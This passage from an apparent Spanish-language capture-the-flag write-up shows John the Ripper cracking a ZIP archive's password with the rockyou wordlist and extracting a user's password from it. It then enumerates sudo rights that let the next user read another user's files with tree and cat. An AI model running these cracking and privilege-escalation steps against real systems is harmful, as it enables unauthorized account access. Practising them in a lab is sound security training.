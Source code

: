 ```ruby
john --wordlist=/home/darks/Desktop/linux/Kali/diccionarios/rockyou.txt ziphash
```
```css
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123123           (backup_rosa.zip/password.txt)     
1g 0:00:00:00 DONE (2024-11-05 16:36) 33.33g/s 546133p/s 546133c/s 546133C/s 123456..cowgirlup
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

y descomprimo el archo para luego obtener la password del siguiente usuario

```ruby
7z x backup_rosa.zip

7-Zip 24.08 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit locale=C.UTF-8 Threads:8 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 215 bytes (1 KiB)

Extracting archive: backup_rosa.zip
--
Path = backup_rosa.zip
Type = zip
Physical Size = 215

    
Enter password (will not be echoed):
Everything is Ok

Size:       13
Compressed: 215

cat password.txt                      
hackwhitbash
```
ya obtenida la password cambio al usuario juan

### Juan

```ruby
sudo -l
```
```css
Matching Defaults entries for juan on da46575086db:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on da46575086db:
    (carlos) NOPASSWD: /usr/bin/tree
    (carlos) NOPASSWD: /usr/bin/cat
```
puedo ejecutar 2 binarios como el usuario `carlos`, por un lado con `/usr/bin/tree` puedo listar el contenido de directorios, por lo que con este bianrio
podra chequear el directorio del usuario `carlos`, y por otro lado puedo ejecutar el binario `/usr/bin/cat` que si existe un archivo en el directorio del
usuario `carlos` lo podre leer
